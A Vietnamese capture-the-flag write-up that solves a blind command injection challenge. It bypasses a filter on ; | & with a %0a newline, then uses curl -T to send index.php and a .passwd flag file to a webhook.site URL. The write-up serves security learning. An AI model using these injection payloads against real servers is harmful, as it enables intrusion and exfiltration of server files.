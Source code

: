 - tiêu đề : Command injection - Filter bypass = vượt chướng ngại vật 
- nội dung : đọc flag ở file index.php 

- NOTE : ae chưa thạo cmdi thì xem qua bài PHP_Command_injection trước nhé 

- trước tiên thì vào dùng thử mình ping 1.1.1.1

![Alt text](<../image/23.2.png>)

- uhm họ không trả kết quả ping mà chỉ là "ping ok"
- blind roiii 

- gặp dạng này có 3 cách : 
- cách 1 ghi file lên document root nếu có quyền 
- cách 2 gửi gói tin ra ngoài nếu server không bị nginx chặn mạng 
- cách 3 bruteforce bằng command 

- với bài này thì mình dùng cách 2 cho tối ưu 
- nhưng trước tiên phải thực hiện injection thành công đã 

![Alt text](<../image/23.1.png>)

- code đã filter bỏ dấu ; | & giờ chỉ còn 1 phương án là %0a 
- NOTE : tiếp theo mình sẽ sử dụng webhook.site để hứng những gói tin mình gửi ra bên ngoài ( ae tìm hiểu thêm webhook.site nhé )
- mình thử ping : 1.1.1.1 %0a curl https://webhook.site/c7fdbc75-bafd-48df-a52f-a937882650d3 ( sử dụng lệnh curl gửi gói tin )

![Alt text](<../image/23.3.png>)

![Alt text](<../image/23.4.png>)

- okay bên webhook đã có gói tin mình gửi -> xác nhận có thể curl ra ngoài 

giờ mình sẽ gửi file index.php ra để đọc source : 1.1.1.1 %0a curl -T index.php https://webhook.site/c7fdbc75-bafd-48df-a52f-a937882650d3

![Alt text](<../image/23.5.png>)

- và Flag được file_get_content(.passwd) nên mình curl file .passwd là win 
- mình ping :  1.1.1.1 %0a curl -T .passwd https://webhook.site/c7fdbc75-bafd-48df-a52f-a937882650d3

![Alt text](<../image/23.6.png>)

- lụm lụm flag :> 

#hackerga2101:
- 3 cách trên kia là phương án để giải quyết những bài toán cmdi blind , ngoài ra cũng có thể là time-base ( cũng là bruteforce )
- command inject là một loại lỗi rất nguy hiểm vì nó có thể thực thi câu lệnh bên server 
- phải thật sự cẩn thận khi code những hàm system() , eval() , passthru() ,...
- cái lỗi này hacker lỏ nào cũng thích nè :>>